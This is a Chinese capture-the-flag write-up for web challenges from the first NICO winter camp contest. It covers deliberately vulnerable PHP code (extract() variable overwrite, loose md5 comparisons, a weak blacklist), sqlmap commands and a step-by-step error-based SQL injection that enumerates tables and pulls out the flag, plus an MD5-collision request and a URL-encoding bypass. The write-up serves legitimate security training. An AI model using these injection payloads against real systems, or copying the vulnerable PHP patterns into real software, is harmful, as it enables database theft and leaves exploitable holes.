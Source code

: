 ```yaml
---
title: NICO冬令营第一次比赛
description: 
published: true
date: 2022-07-18T00:10:07.144Z
tags: 
editor: markdown
dateCreated: 2022-07-17T15:34:33.925Z
---
```


# Web
## web1

```php
<?php
	//author: Elaine
	include('./flag.php');
	highlight_file(__FILE__);
	$admin = 'false';
	$guest = 'true';
	extract($_GET); # 读取传入数据的变量
	if (md5($admin) == md5($guest)) {
	    echo $FLAG;
	} else{
	    echo "nonono!";
	}
?>
```

这题相对简单，因为`extract`函数可以覆盖原有变量的数据，所以选择`$admin`和`$guest`两个变量其中一个的值覆写一下，让判断为真就可以了：
![72782a9b-6e65-42e0-8340-9e482108919a.png](/72782a9b-6e65-42e0-8340-9e482108919a.png)

## SQL

通过抓包，可以发现请求是通过POST传输的，那么先祭出`sqlmap`测试一下
![21cd3092-9893-473b-9773-11b351f7cbc2.png](/21cd3092-9893-473b-9773-11b351f7cbc2.png)
```bash
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form
```
![a7838e45-0b48-44fd-98ed-f27b18bdaa3d.png](/a7838e45-0b48-44fd-98ed-f27b18bdaa3d.png)
可以看出`sqlmap`检测出了可注入，那么测试一下自动注入：
```
sqlmap --random-agent --risk=3 --drop-set-cookie -u http://121.37.5.94:8305/ --form --dbs
```
![a96b26f0-9e51-4262-87a8-35e21ccbe8a1.png](/a96b26f0-9e51-4262-87a8-35e21ccbe8a1.png)
可以看出注入点存在，但是`sqlmap`无法实现自动注入，那么尝试手注：
```bash
tt=1'and extractvalue(1,concat(1,(select user()))) %23
```
![4fe89ac1-38b9-45a2-99a6-119af6a6ffd4.png](/4fe89ac1-38b9-45a2-99a6-119af6a6ffd4.png)
```bash
tt=1'and extractvalue(1,concat(1,(select database()))) %23
```
![aa7d0f2b-a3c2-4aeb-ae30-5da582a10f82.png](/aa7d0f2b-a3c2-4aeb-ae30-5da582a10f82.png)
由此已经得到了一个数据库：`error_sql`，接下来爆出库内的表名：
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(table_name) from information_schema.tables where table_schema='error_sql'))) %23
```
![26b87fba-05b5-44af-a36f-d3c385e54071.png](/26b87fba-05b5-44af-a36f-d3c385e54071.png)
那么已经知道库内有两个表：`data`,`flag_here`，接着爆`flag_here`:
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(column_name) from information_schema.columns where table_name='flag_here'))) %23
```
![9e3f4944-6087-440e-861b-3fba5bcb8764.png](/9e3f4944-6087-440e-861b-3fba5bcb8764.png)
那么只需爆出`data`的数据就好了：
```bash
tt=1'and extractvalue(1,concat(1,(select group_concat(data) from flag_here))) %23
```
![fc1e1d36-f509-4fe8-9896-229ff6e27f74.png](/fc1e1d36-f509-4fe8-9896-229ff6e27f74.png)
但是比较糟糕，报错信息限制了数据的显示，那么采取分段显示：
```bash
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),1,16) from flag_here))) %23
```
![1f670c79-c78e-4070-9983-5ab7c428c742.png](/1f670c79-c78e-4070-9983-5ab7c428c742.png)
```bash
tt=1'and extractvalue(1,concat(1,(select mid(group_concat(data),17,21) from flag_here))) %23
```
![c98b3706-c579-4cc8-a066-cf9adc7ec3a1.png](/c98b3706-c579-4cc8-a066-cf9adc7ec3a1.png)
得到了flag：
```text
NICO{eRr0r_inJect10n_1s_in7er35tin9!}
```

## level ?

level1：

```php
<?php
		//here is level1    
		error_reporting(0);
    include "str.php";
    if (isset($_GET['txw4ever'])){
        if (substr_count($_GET['txw4ever'],'1')>0){
            die("level 1 failed ...");
        }
        if ($_GET['txw4ever'] == 1){
            echo "next: ".$level2;
        }
    }
    else{
        show_source(__FILE__);
    }
?>
```

这里要实现`$txw4ever`字符里面不含有1，但是数值表达上等于1，就会想到传无限接近于1：

```
http://121.37.5.94:8310/?txw4ever=0.99999999999999999999
```

![abb7b466-f00a-48ff-8615-fe30b6b5daae.png](/abb7b466-f00a-48ff-8615-fe30b6b5daae.png)

level2:

```php
<?php
//here is level2
    error_reporting(0);
    include "str.php";
    if (isset($_POST['jitanglailo'])){
        $chuanshanjia = $_POST['jitanglailo'];
        if ($chuanshanjia == md5($chuanshanjia)){
            echo $level3;
        }
        else{
            die("level 2 failed ...");
        }
    }
    else{
        show_source(__FILE__);
    }
?>
```

这里是md5的弱对比，那么就想到构造0e开头的字符串：

```
jitanglailo=0e215962017
```
![6c399ebe-6046-46c6-a526-1793d22ed7c7.png](/6c399ebe-6046-46c6-a526-1793d22ed7c7.png)

level3：

```php
<?php
//here is level3
    error_reporting(0);
    include "str.php";
    if (isset($_POST['arr1']) && isset($_POST['arr2'])){
        $a1 = (string)$_POST['arr1'];
        $a2 = (string)$_POST['arr2'];
        if ($a1 == $a2){
            die("????");
        }
        if (md5($a1) === md5($a2)){
            echo $level4;
        }
        else{
            die("level 3 failed ...");
        }
    }
    else{
        show_source(__FILE__);
    }
?>
```

这里md5的值用上了===对比符，只能考虑强碰撞。考虑数据传输完整性，采用Burp来POST数据：

```
POST http://121.37.5.94:8310/LevEl3.php HTTP/1.1
Host: 121.37.5.94:8310
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1027

arr1=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1Bih%D3%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8U%7C%3Dm%89%DB%11%B7%BFkr%84.%01h%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%96F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%94%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9d%84%B2%F1%03&arr2=1%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00b%87%24%8E%A1%E8H%B3y%BF%93%B8U%D2%F0e%1BihS%5CD%2A%0B%FF%21%83%FA%AF-4%CF4%9B%F1%EF%5D%0D%3D%C1%EBE%3A%3B%E8%D5%7C%3Dm%89%DB%11%B7%BFkr%84.%01%E8%C0%C3%96%DFr%A5%CF%B4%08%F9%8D%E6a3%22%05%A5%C8%8Be%0F2%A7%16F%0CC%DB%1E%C5%B7f%D0%E6t%EE%E9n%B6G%2A%9B9%A8%FAK%B9i%82%14%E1%FC%F3%A0%5D%B3%7F%C2%23I%FE%9F%C9%E4%84%B2%F1%03
```
![bc22688d-c8a9-45f9-86ee-f4a8edfce7ed.png](/bc22688d-c8a9-45f9-86ee-f4a8edfce7ed.png)

level4:

```php
<?php
//here is last level
    error_reporting(0);
    include "str.php";
    show_source(__FILE__);
    $str = parse_url($_SERVER['REQUEST_URI']);
    if($str['query'] == ""){
        echo "give me a parameter";
    }
    if(preg_match('/ |_/',$str['query'])){
        die("blacklist here");
    }
    if (substr_count($str['query'],'.') > 1){
        die("i know you");
    }
    if($_GET['NI_CO_'] === "try-your-best!"){
        die($flag);
    }
    else{
        die("level 3 failed ...");
    }
?>
```

可以看出这题的黑名单比较薄弱，直接url编码就可以绕过：

```
http://121.37.5.94:8310/lEvEl_4.php?NI%2eCO%2e=try-your-best!
```

![169c1a51-2856-49bf-9204-bc1a7d86b673.png](/169c1a51-2856-49bf-9204-bc1a7d86b673.png)

得到了flag：NICO{phP_1s_R3alLy_Go0d!}